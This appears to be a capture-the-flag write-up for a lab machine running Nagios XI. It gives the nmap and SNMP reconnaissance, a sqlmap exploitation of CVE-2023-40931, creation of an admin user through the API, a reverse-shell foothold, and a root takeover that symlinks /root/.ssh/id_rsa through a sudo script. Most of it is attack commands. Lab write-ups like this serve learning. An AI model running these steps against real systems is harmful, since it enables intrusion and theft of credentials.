


Monitored
nmap
sudo nmap -p- $IP --min-rate 10000 | grep open | cut -d'/' -f1 | tr '\n' ',' | tee -a ports
sudo nmap -sC -sV --vv -p $(cat ports) $IP -oN monitored.scan -Pn
Nmap scan report for 10.129.230.96
Host is up, received user-set (1.2s latency).
Scanned at 2025-02-24 08:52:24 EST for 26s
PORT STATE SERVICE REASON VERSION
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
| 3072 61:e2:e7:b4:1b:5d:46:dc:3b:2f:91:38:e6:6d:c5:ff (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/xFgJTbVC36GNHaE0GG4n/bWZGaD2aE7lsFUvXVdbINrl0qzBPVCMuOE1HNf0LHi09obr2Upt9VURzpYdrQp/7SX2NDet9pb+UQnB1IgjRSxoIxjsOX756a7nzi71tdcR3I0sALQ4ay5I5GO4TvaVq+o8D01v94B0Qm47LVk7J3mN4wFR17lYcCnm0kwxNBsKsAgZVETxGtPgTP6hbauEk/SKGA5GASdWHvbVhRHgmBz2l7oPrTot5e+4m8A7/5qej2y5PZ9Hq/2yOldrNpS77ID689h2fcOLt4fZMUbxuDzQIqGsFLPhmJn5SUCG9aNrWcjZwSL2LtLUCRt6PbW39UAfGf47XWiSs/qTWwW/yw73S8n5oU5rBqH/peFIpQDh2iSmIhbDq36FPv5a2Qi8HyY6ApTAMFhwQE6MnxpysKLt/xEGSDUBXh+4PwnR0sXkxgnL8QtLXKC2YBY04jGG0DXGXxh3xEZ3vmPV961dcsNd6Up8mmSC43g5gj2ML/E=
| 256 29:73:c5:a5:8d:aa:3f:60:a9:4a:a3:e5:9f:67:5c:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBbeArqg4dgxZEFQzd3zpod1RYGUH6Jfz6tcQjHsVTvRNnUzqx5nc7gK2kUUo1HxbEAH+cPziFjNJc6q7vvpzt4=
| 256 6d:7a:f9:eb:8e:45:c2:02:6a:d5:8d:4d:b3:a3:37:6f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB5o+WJqnyLpmJtLyPL+tEUTFbjMZkx3jUUFqejioAj7
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.56
|_http-title: Did not follow redirect to https://nagios.monitored.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
389/tcp open ldap syn-ack ttl 63 OpenLDAP 2.2.X - 2.3.X
443/tcp open ssl/http syn-ack ttl 63 Apache httpd 2.4.56 ((Debian))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
| tls-alpn:
|_ http/1.1
| ssl-cert: Subject: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Issuer: commonName=nagios.monitored.htb/organizationName=Monitored/stateOrProvinceName=Dorset/countryName=UK/emailAddress=support@monitored.htb/localityName=Bournemouth
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-11-11T21:46:55
| Not valid after: 2297-08-25T21:46:55
| MD5: b36a:5560:7a5f:047d:9838:6450:4d67:cfe0
| SHA-1: 6109:3844:8c36:b08b:0ae8:a132:971c:8e89:cfac:2b5b
| -----BEGIN CERTIFICATE-----
| MIID/zCCAuegAwIBAgIUVhOvMcK6dv/Kvzplbf6IxOePX3EwDQYJKoZIhvcNAQEL
| BQAwgY0xCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZEb3JzZXQxFDASBgNVBAcMC0Jv
| dXJuZW1vdXRoMRIwEAYDVQQKDAlNb25pdG9yZWQxHTAbBgNVBAMMFG5hZ2lvcy5t
| b25pdG9yZWQuaHRiMSQwIgYJKoZIhvcNAQkBFhVzdXBwb3J0QG1vbml0b3JlZC5o
| dGIwIBcNMjMxMTExMjE0NjU1WhgPMjI5NzA4MjUyMTQ2NTVaMIGNMQswCQYDVQQG
| EwJVSzEPMA0GA1UECAwGRG9yc2V0MRQwEgYDVQQHDAtCb3VybmVtb3V0aDESMBAG
| A1UECgwJTW9uaXRvcmVkMR0wGwYDVQQDDBRuYWdpb3MubW9uaXRvcmVkLmh0YjEk
| MCIGCSqGSIb3DQEJARYVc3VwcG9ydEBtb25pdG9yZWQuaHRiMIIBIjANBgkqhkiG
| 9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1qRRCKn9wFGquYFdqh7cp4WSTPnKdAwkycqk
| a3WTY0yOubucGmA3jAVdPuSJ0Vp0HOhkbAdo08JVzpvPX7Lh8mIEDRSX39FDYClP
| vQIAldCuWGkZ3QWukRg9a7dK++KL79Iz+XbIAR/XLT9ANoMi8/1GP2BKHvd7uJq7
| LV0xrjtMD6emwDTKFOk5fXaqOeODgnFJyyXQYZrxQQeSATl7cLc1AbX3/6XBsBH7
| e3xWVRMaRxBTwbJ/mZ3BicIGpxGGZnrckdQ8Zv+LRiwvRl1jpEnEeFjazwYWrcH+
| 6BaOvmh4lFPBi3f/f/z5VboRKP0JB0r6I3NM6Zsh8V/Inh4fxQIDAQABo1MwUTAd
| BgNVHQ4EFgQU6VSiElsGw+kqXUryTaN4Wp+a4VswHwYDVR0jBBgwFoAU6VSiElsG
| w+kqXUryTaN4Wp+a4VswDwYDVR0TAQH/BAUwAwEB/zANBgkqhkiG9w0BAQsFAAOC
| AQEAdPGDylezaB8d/u2ufsA6hinUXF61RkqcKGFjCO+j3VrrYWdM2wHF83WMQjLF
| 03tSek952fObiU2W3vKfA/lvFRfBbgNhYEL0dMVVM95cI46fNTbignCj2yhScjIz
| W9oeghcR44tkU4sRd4Ot9L/KXef35pUkeFCmQ2Xm74/5aIfrUzMnzvazyi661Q97
| mRGL52qMScpl8BCBZkdmx1SfcVgn6qHHZpy+EJ2yfJtQixOgMz3I+hZYkPFjMsgf
| k9w6Z6wmlalRLv3tuPqv8X3o+fWFSDASlf2uMFh1MIje5S/jp3k+nFhemzcsd/al
| 4c8NpU/6egay1sl2ZrQuO8feYA==
|_-----END CERTIFICATE-----
|_http-title: Nagios XI
|_http-server-header: Apache/2.4.56 (Debian)
|_ssl-date: TLS randomness does not represent time
5667/tcp open tcpwrapped syn-ack ttl 63
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 24 08:52:50 2025 -- 1 IP address (1 host up) scanned in 28.51 seconds
curl -I http://$IP
HTTP/1.1 301 Moved Permanently
Date: Mon, 24 Feb 2025 13:20:58 GMT
Server: Apache/2.4.56 (Debian)
Location: https://nagios.monitored.htb/
Content-Type: text/html; charset=iso-8859-1
echo $IP nagios.monitored.htb | sudo tee -a /etc/hosts
udp scan
sudo nmap -sU $IP -oN monithored.udp
Web recon
port 443
trying to breach the version but we need an api token
we have access to nagios XI monitoring interface but we need some credentials to login with it
looking for exploits and auth bypass i found just some olds one from 2018 and som new rce authenticated one's , some auth sqli one's in the banner to breach other users but we don't have cred's
looking for more cve's it seems to be endless so now we move back to recon looking for udp scan result
# Nmap 7.94SVN scan initiated Mon Feb 24 09:48:27 2025 as: nmap -sU -oN monithored.udp 10.129.230.96
Nmap scan report for nagios.monitored.htb (10.129.230.96)
Host is up (0.20s latency).
Not shown: 996 closed udp ports (port-unreach)
PORT STATE SERVICE
68/udp open|filtered dhcpc
123/udp open ntp
161/udp open snmp
162/udp open|filtered snmptrap
# Nmap done at Mon Feb 24 10:09:51 2025 -- 1 IP address (1 host up) scanned in 1284.58 seconds
let's see what we can do with snmp
PORT STATE SERVICE VERSION
161/udp open snmp SNMPv1 server; net-snmp SNMPv3 server (public)
| snmp-processes:
|_ 1:
| snmp-info:
| enterprise: net-snmp
| engineIDFormat: unknown
| engineIDData: 6f3fa7421af94c6500000000
| snmpEngineBoots: 36
|_ snmpEngineTime: 1h59m54s
| snmp-netstat:
| TCP 0.0.0.0:22 0.0.0.0:0
| TCP 0.0.0.0:389 0.0.0.0:0
| TCP 127.0.0.1:25 0.0.0.0:0
| TCP 127.0.0.1:3306 0.0.0.0:0
| TCP 127.0.0.1:5432 0.0.0.0:0
| TCP 127.0.0.1:7878 0.0.0.0:0
| TCP 127.0.0.1:50794 127.0.1.1:80
| TCP 127.0.0.1:50800 127.0.1.1:80
|_ UDP 0.0.0.0:68 *:*
| snmp-sysdescr: Linux monitored 5.10.0-28-amd64 #1 SMP Debian 5.10.209-2 (2024-01-31) x86_64
|_ System uptime: 1h59m54.19s (719419 timeticks)
Service Info: Host: monitored
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.34 second
dumping snmp tree
so is the version 1 now we can dump the data from it adding . make's sure that we dump the whole tree from the root OID
snmpbulkwalk -c public -v2c 10.129.230.96 .
ssh not working with it
access to Nagiosxi
so we found a user and password that is are used with that script to create a worker watching the nagiosxi service testing it on the web page we see that is disabled
we can test to request an api token
and we got the token export it
export token=054b07d62cf3955532fb5ed16bbf40a159e25b01
“looking how to use token we come accross this page https://www.nagios.org/ncpa/help/3.x/api.html” could not be found.
after a bit of test how to use the token we come accross that we need to use api key not token
but as we see we stilll get Invalid token error and looking at the time of validation is totaly diffrent from my machine time as we see also ntp is open on the udp scan so we need to synchronize the time with the box
sudo ntpdate $IP
and it's fails so is not the problem browsing the internet for more infos we see in docs people used token arg but we get always this 
searching for " how to interacte with /nagiosxi/api/v1/authenticate " we come accross this web page https://support.nagios.com/forum/viewtopic.php?t=58783
curl -k -L "https://nagios.monitored.htb/nagiosxi/includes/components/nagioscore/ui/trends.php?createimage&host=localhost&token=$TOKEN" > image.png
so let's try it with burp suite and request it on the browser to see is the session will presicte
we got the same binary that under the include url but moving to /nagiosxi we got a valide session

SQLi in nagiosx
We can see that we are logged in as the svc account, but there is no admin page or elevated privileges. Additionally, testing the API key from the profile settings returns 'Account is disabled,' confirming that we do not have admin access. We need administrative privileges to execute shell commands, as Nagios is a service monitoring tool that allows scheduling command execution.
we see also the version Nagios XI 5.11.0 googling it with related exploits we found the following CVE https://nvd.nist.gov/vuln/detail/CVE-2023-40931
so it's basicaly a SQLi in and id parameter in the following form/nagiosxi/admin/banner_message-ajaxhelper.php loking for the action to parse the id to it we found that is the acknowledge_banner_message action https://outpost24.com/blog/nagios-xi-vulnerabilities/
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1' --cookie "nagiosxi=3nobd0289tcequ39k8kv87rm9j" -p id --batch
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1' --cookie "nagiosxi=3nobd0289tcequ39k8kv87rm9j" -p id --batch --dbs
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1' --cookie "nagiosxi=3nobd0289tcequ39k8kv87rm9j" -p id --batch -D nagiosxi --tables
sqlmap -u 'https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=1' --cookie "nagiosxi=3nobd0289tcequ39k8kv87rm9j" -p id --batch -D nagiosxi -T xi_users --dump
we got some admin hashes also we have got the api key of the admin
export apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL
cracking the passwords seems to be a dead end let's access the nagios as admin with the same previous technic but we can't cause that endpint execpect a username and password looking a gain for the api key usage https://support.nagios.com/kb/article/nagios-xi-adding-and-removing-a-host-using-the-api-713.html we found a video asking
admin access to Nagiosxi
chatgp we got a gain that system status endpoint
nothing letft to be checked in docs cause is so limited let's try to fuzz them
feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1 -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /usr/wordlists/SecLists/Discovery/Web-Content/api/objects.txt
we got for user no implemented
let's see the system and run a recursive fuzzer on it since we know that there is a status enpoint under system
normal cause there are some commponent under this endpoint
feroxbuster -u https://nagios.monitored.htb/nagiosxi/api/v1/system -k --query apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL -w /usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects.txt
ugly enough either ffuf and feroxbuster faild this time to identify the user endpoint ffuf return the same size in the response and i know is different so we can use regx with ffuf to filter the invalid response
ffuf -u "https://nagios.monitored.htb/nagiosxi/api/v1/system/FUZZ?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL" -w /usr/share/wordlists/SecLists/Discovery/Web-Content/api/objects-lowercase.txt -mc 200 -fr ".*Unknown API endpoint.*" -c

from /system/user we got the users
we search for this enpoint and how to interact with we found this
it's seams out date but at least give us some info's how to interact with that endpoint & we can add a new user to the interface also from here https://support.nagios.com/forum/viewtopic.php?t=42923
curl -XPOST -k -s "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=ippyokai&password=ippypokai&name=yuki%20McDouglas&email=ipp@monitored.htb" | jq
we got this license agreement

agree and submit
we nee to change password do that and follows and we have an account now let's see how to make it admin and how we can create an admin account
looking at that exploit db artical we comme accrosss auth_level paramter that we can set to admin to creat an admin user also from here we can understand the user auth level https://assets.nagios.com/downloads/nagiosxi/docs/Understanding-Nagios-XI-User-Rights.pdf also we can fore change password to be = 0 but it's doesn't matter
curl -XPOST -k -s "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=pain&password=ippypokai&name=yuki%20McDouglas&email=ipp@monitored.htb&auth_level=admin" | jq
finaly we are admin
shell on the box
now we can schedule a shell command to be executed with nagios as admin https://support.nagios.com/kb/article/nagios-xi-command-subsystem-architecture-58.html let's see how to do that and is there any running command's some times we can found some credentials as args for the runing commands
we see again the password and svc user on that crond job looking at configure menu
we found some commands expend it we see the add new command option
so now we can add a revshell command to be executed

no we need to see how to run this command backing to hosts to specify where the command should be attached
now we can add and run the command on localhost
and we got the shell as nagios
to make an tty one
revshell> script /dev/null -c bash
host> ctl + z
host> stty raw -echo;fg
rooting the box
sudo -l

we see that we can run alot of nagios stuff as root under /etc/init.d as we know is a know file used with services to stop start them
lisinting init.d sudenaly we did not found this binaries related to nagois service
looking at script we found this one cat /usr/local/nagiosxi/scripts/components/getprofile.sh that have a lot of operation it an there is the following line that copy /usr/local/nagiosxi/tmp/phpmailer.log on an other file and add it to a folder to be ziped
we see it's owned by nagois an the script is executed as root time for some symbolic links abuse
ln -sf /root/.ssh/id_rsa /usr/local/nagiosxi/tmp/phpmailer.log
the output is generated under
sudo /usr/local/nagiosxi/scripts/components/getprofile.sh ippyokai
now we can move to output dir and list the archive
grep the profile phpmailer.log to unzip it
unzip -p profile.zip profile-X/phpmailer.log
and we have the root ssh
sudo chmod 600 id_rsa
ssh -i id_rsa root@nagios.monitored.htb